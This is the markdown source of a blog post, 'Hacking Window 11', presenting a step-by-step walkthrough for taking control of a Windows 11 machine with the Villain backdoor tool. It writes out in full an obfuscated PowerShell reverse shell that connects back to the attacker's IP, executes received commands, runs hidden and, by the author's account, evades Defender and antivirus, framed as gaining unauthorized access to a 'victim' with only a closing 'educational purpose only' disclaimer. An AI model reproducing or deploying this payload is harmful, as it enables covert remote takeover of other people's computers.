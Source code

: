 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


I’ll elaborate on how to hack Windows 11 Pro using PowerShell Script.


Requirements

Kali Linux Machine (attacking machine)
Windows 11 (victim machine)
Villain (In Kali Machine)
Let’s Start…..

Open Kali machine and open Firefox, then download the Villain.


Now, open Villain after downloading.


Install the requirement for the tool using the following command.

pip3 install -r requirements.txt
After the installation, we start the villain.


command: python3 Villain.py

Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)


Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
In this script enter the IP of your kali machine by using ifconfig command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.



In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.


Here we can see ‘Session ID’ — ‘IP Address’ — ‘OS Type’ — ‘User’ — ‘Status.’

Using the ‘shell + session ID’ command allows you to gain control over the victim’s computer andexecute various commands.


We use systeminfo command to see the detail of victim’s machine.


WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

Essential Things You Must Know ⚠

1- If the victim closes the PowerShell, it won’t stop the reverse shell.

2- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂

RADEEL AHMAD
